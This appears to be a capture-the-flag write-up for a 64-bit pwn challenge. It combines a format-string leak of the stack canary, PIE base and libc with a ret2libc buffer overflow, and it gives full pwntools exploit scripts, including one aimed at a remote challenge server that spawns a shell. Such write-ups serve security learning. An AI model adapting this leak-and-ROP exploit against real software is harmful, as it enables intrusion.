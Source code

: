 # What does the f say
`Buffer Overflow` `64-Bits Binary` `Ret2Libc` `Canary` `Format String`
<br>
<br>

This challenge for me personally is very challengin since it combine a format string vulnerability with a ret2libc in order to obtain the flag.
```
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
Above I've done the checksec for the binary, and everything is on, from `Full RELRO` meaning we can't hijack any function there, the binary also has a Canary, and `PIE enabled` which mean all the address is randomized each time we run the binary.

First I try to decompile the binary and found out that the binary has 2 option, either we get the `drink` or `food`, and in the `drink` section if we choose `Kryptonite` we're given 2 options, either the red or green, **BUT** I tried to put some format string payload there which is `%p` and it prints out an address.

Simply I do some bruteforcing to find useful address for the exploitation, and since the PIE is on, we're also looking for leaked function address. After a while I found some useful addresses such as `libc_read`, `canary`, `fox_bar`, `libc_start_main` - So first I write my python code to get 'em. (note I didn't use the read at last since I can use the start main address)

```python
from pwn import *

binary = './wdf'
elf = context.binary = ELF(binary)

p = process(binary)

p.recv()
p.sendline(b'1')
print(p.recv())
p.sendline(b'2')
p.sendlineafter(b'Red or Green Kryptonite?\n', b'%13$p %15$p %25$p')
leak = p.recv() .split(b'\n')
leak = leak[0].split(b' ')
canary = int(leak[0],16)
base = int(leak[1],16) 
lism = int(leak[2],16) 
log.info(f'Canary : {hex(canary)}')
log.info(f'Base : {hex(base)}')
log.info(f'Libc Start : {hex(lism)}')
```

Notice that the libc and base address is not the one we wanted, what we got:
```
gef➤  x/s 0x7ffff7de8083
0x7ffff7de8083 <__libc_start_main+243>:	"\211\307\350\266)\002"
gef➤  x/s 0x55555555574a
0x55555555574a <fox_bar+106>:	"\353\030\350-\373\377\377\353\021H\215=\214\t"  
```
What we want to get when we use `x/s` is something like `/177ELF` or what I use to say, the `base` address, both `libc base` and `binary base`. So how do we get them? It's quite simple! after you use `gdb <binary>` just run it and stop it, then type `vmmap` and you will see something like this.

```
Start              End                Offset             Perm Path
0x00555555554000 0x00555555555000 0x00000000000000 r-- /home/kiinzu/Downloads/wdf
0x00555555555000 0x00555555556000 0x00000000001000 r-x /home/kiinzu/Downloads/wdf
0x00555555556000 0x00555555557000 0x00000000002000 r-- /home/kiinzu/Downloads/wdf
0x00555555557000 0x00555555558000 0x00000000002000 r-- /home/kiinzu/Downloads/wdf
0x00555555558000 0x00555555559000 0x00000000003000 rw- /home/kiinzu/Downloads/wdf
0x007ffff7dc4000 0x007ffff7de6000 0x00000000000000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007ffff7de6000 0x007ffff7f5e000 0x00000000022000 r-x /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007ffff7f5e000 0x007ffff7fac000 0x0000000019a000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007ffff7fac000 0x007ffff7fb0000 0x000000001e7000 r-- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007ffff7fb0000 0x007ffff7fb2000 0x000000001eb000 rw- /usr/lib/x86_64-linux-gnu/libc-2.31.so
0x007ffff7fb2000 0x007ffff7fb8000 0x00000000000000 rw- 
0x007ffff7fc9000 0x007ffff7fcd000 0x00000000000000 r-- [vvar]
0x007ffff7fcd000 0x007ffff7fcf000 0x00000000000000 r-x [vdso]
0x007ffff7fcf000 0x007ffff7fd0000 0x00000000000000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007ffff7fd0000 0x007ffff7ff3000 0x00000000001000 r-x /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007ffff7ff3000 0x007ffff7ffb000 0x00000000024000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007ffff7ffc000 0x007ffff7ffd000 0x0000000002c000 r-- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007ffff7ffd000 0x007ffff7ffe000 0x0000000002d000 rw- /usr/lib/x86_64-linux-gnu/ld-2.31.so
0x007ffff7ffe000 0x007ffff7fff000 0x00000000000000 rw- 
0x007ffffffde000 0x007ffffffff000 0x00000000000000 rw- [stack]
0xffffffffff600000 0xffffffffff601000 0x00000000000000 --x [vsyscall]
```




```python
from pwn import *

binary = './wdf'
elf = context.binary = ELF(binary)
libc = ELF('./libc6_2.27-3ubuntu1.2_amd64.so')

#p = process(binary)

p = remote('161.35.36.167',32701)

def order(times):
	for i in range(times):
		p.sendline(b'2')
		p.recv()
		p.sendline(b'3')
		p.recv()

#Leak Address
p.recv()
p.sendline(b'1')
print(p.recv())
p.sendline(b'2')
p.sendlineafter(b'Red or Green Kryptonite?\n', b'%13$p %15$p %25$p')
leak = p.recv() .split(b'\n')
leak = leak[0].split(b' ')
canary = int(leak[0],16)
base = int(leak[1],16) - 0x174a
lism = int(leak[2],16) - 0x021b97 #libc.sym["__libc_start_main"]
log.info(f'Canary : {hex(canary)}')
log.info(f'Base : {hex(base)}')
log.info(f'Libc Start : {hex(lism)}')

#Drain Money <20.00
order(6)

#Call the BOF function
p.sendline(b'1')
p.recv()
p.sendline(b'2')
p.recv()
p.sendline(b'Red')
p.recv()

#PAYLOAD
rdi = base + 0x00000000000018bb
ret = base + 0x0000000000001016

payload = b'a'*24
payload+= p64(canary)
payload+= b'a'*8
payload+= p64(rdi)
payload+= p64(lism + 0x1b40fa)
payload+= p64(ret)
payload+= p64(lism + 0x04f4e0)

p.sendline(payload) 

p.interactive()
```